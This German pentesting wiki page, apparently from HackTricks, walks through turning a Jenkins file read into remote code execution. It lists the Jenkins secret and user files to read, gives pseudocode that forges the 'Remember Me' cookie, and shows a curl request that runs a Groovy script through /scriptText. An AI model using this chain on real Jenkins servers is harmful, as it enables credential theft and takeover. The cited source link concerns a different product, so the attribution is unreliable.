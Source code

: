 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

In diesem Blogbeitrag ist es möglich, einen großartigen Weg zu finden, um eine Local File Inclusion-Sicherheitsanfälligkeit in Jenkins in RCE zu verwandeln: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Dies ist eine von KI erstellte Zusammenfassung des Teils des Beitrags, in dem das Erstellen eines beliebigen Cookies ausgenutzt wird, um RCE zu erhalten, indem eine lokale Datei gelesen wird, bis ich Zeit habe, eine eigene Zusammenfassung zu erstellen:

### Angriffsvoraussetzungen

- **Funktionsanforderung:** "Remember me" muss aktiviert sein (Standardeinstellung).
- **Zugriffslevel:** Angreifer benötigt Gesamt-/Lese-Berechtigungen.
- **Geheimer Zugriff:** Fähigkeit, sowohl binäre als auch textuelle Inhalte aus wichtigen Dateien zu lesen.

### Detaillierter Ausbeutungsprozess

#### Schritt 1: Datensammlung

**Benutzerinformationsabruf**

- Greifen Sie auf die Benutzerkonfiguration und Geheimnisse von `$JENKINS_HOME/users/*.xml` für jeden Benutzer zu, um Folgendes zu sammeln:
- **Benutzername**
- **Benutzersamen**
- **Zeitstempel**
- **Passworthash**

**Geheimschlüsselextraktion**

- Extrahieren Sie kryptografische Schlüssel, die zum Signieren des Cookies verwendet werden:
- **Geheimschlüssel:** `$JENKINS_HOME/secret.key`
- **Master-Schlüssel:** `$JENKINS_HOME/secrets/master.key`
- **MAC-Schlüsseldatei:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Schritt 2: Cookie-Fälschung

**Token-Vorbereitung**

- **Berechnen Sie die Token-Ablaufzeit:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Fügt eine Stunde zur aktuellen Zeit hinzu
```

- **Daten für das Token verketten:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC-Schlüsselentschlüsselung**

- **Entschlüsseln Sie die MAC-Schlüsseldatei:**

```javascript
key = toAes128Key(masterKey)  // Konvertieren Sie den Master-Schlüssel in das AES128-Schlüssel-Format
decrypted = AES.decrypt(macFile, key)  // Entschlüsseln Sie die .mac-Datei
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signaturberechnung**

- **Berechnen Sie HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey) // Berechnen Sie HMAC mit dem Token und dem MAC-Schlüssel
tokenSignature = bytesToHexString(mac) // Konvertieren Sie das MAC in eine hexadezimale Zeichenfolge
```

**Cookie-Codierung**

- **Generieren Sie das endgültige Cookie:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Base64-codieren Sie die Cookie-Daten
```

#### Schritt 3: Codeausführung

**Sitzungsauthentifizierung**

- **Abrufen von CSRF- und Sitzungstoken:**
- Stellen Sie eine Anfrage an `/crumbIssuer/api/json`, um `Jenkins-Crumb` zu erhalten.
- Erfassen Sie `JSESSIONID` aus der Antwort, die zusammen mit dem Remember-Me-Cookie verwendet wird.

**Befehlsausführungsanfrage**

- **Senden Sie eine POST-Anfrage mit Groovy-Skript:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Das Groovy-Skript kann verwendet werden, um systemweite Befehle oder andere Operationen innerhalb der Jenkins-Umgebung auszuführen.

Der bereitgestellte Beispiel-curl-Befehl zeigt, wie man eine Anfrage an Jenkins mit den erforderlichen Headern und Cookies sendet, um beliebigen Code sicher auszuführen.

{{#include ../../banners/hacktricks-training.md}}
